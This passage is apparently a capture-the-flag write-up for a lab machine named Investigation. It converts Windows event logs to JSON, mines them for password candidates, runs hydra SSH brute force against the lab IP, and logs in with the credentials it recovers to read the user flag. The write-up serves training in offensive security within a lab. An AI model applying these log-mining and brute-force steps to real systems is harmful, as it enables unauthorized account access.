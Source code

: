 Open evolution click on 'New' attach the .eml file and 'Save as Draft'. Then click on 'Drafts' to read the contents. You can now download the evtx-logs.zip.

![Compose an Email](/images/investigation/investigation03.png "Compose an Email")

![Reading the .eml File](/images/investigation/investigation04.png "Reading the .eml File")

```shell
# extract the contents of the zip file
unzip -d evtx-logs evtx-logs.zip

# install an evtx converter. also checkout: https://github.com/williballenthin/EVTXtract
wget -O evtx_dump https://github.com/omerbenamram/evtx/releases/download/v0.8.0/evtx_dump-v0.8.0-x86_64-unknown-linux-gnu 
chmod 774 evtx_dump 

# dump the evtx to xml and jsonl
./evtx_dump -t1 evtx-logs/security.evtx -f evtx-logs/security.xml 
./evtx_dump -t1 evtx-logs/security.evtx -o jsonl -f evtx-logs/security.jsonl
codium evtx-logs

# Investigate these outputs. The TargetName appeared interesting.
grep -rne "<Data Name=\"TargetName\">" evtx-logs/security.xml 
grep -rne "TargetName" evtx-logs/security.jsonl

# create a passwordlist from name key of TargetName
cat evtx-logs/security.jsonl | jq -r '.[].EventData.TargetName' | grep -e 'name' | sed 's/.*name=\([^;]*\).*/\1/' # using a combination of grep and sed utility
cat evtx-logs/security.jsonl | jq -r '.[].EventData.TargetName' | grep -oP '(?<=name=)[^;]*' | uniq | tee -a TNpasslist   # using only grep to generate a password list
hydra -l smorton -P TNpasslist -t 6 -q ssh://10.10.11.197    # ssh brute force

# create a passwordlist from TargetUserName. I wasn't expecting to find something but did
cat evtx-logs/security.jsonl | jq -r '.[].EventData.TargetUserName' | sort -u > TUNpasslist.txt
hydra -l smorton -P TUNpasslist.txt -t 6 -q ssh://10.10.11.197    # ssh brute force
#--snip--#
[DATA] attacking ssh://10.10.11.197:22/
[22][ssh] host: 10.10.11.197   login: smorton   password: Def@ultf0r3nz!csPa$$

# login into the machine
ssh smorton@10.10.11.197   # submit password on prompt:Def@ultf0r3nz!csPa$$
ls -lah
#--snip--#
-rwxrwx--- 1 smorton smorton  220 Feb 25  2020 .bash_logout
-rwxrwx--- 1 smorton smorton 3.7K Feb 25  2020 .bashrc
drwxrwx--- 2 smorton smorton 4.0K Aug 27  2022 .cache
-rwxrwx--- 1 smorton smorton  807 Feb 25  2020 .profile
-rw-r----- 1 root    smorton   33 Apr 25 04:25 user.txt

cat user.txt               # capture the user flag
```
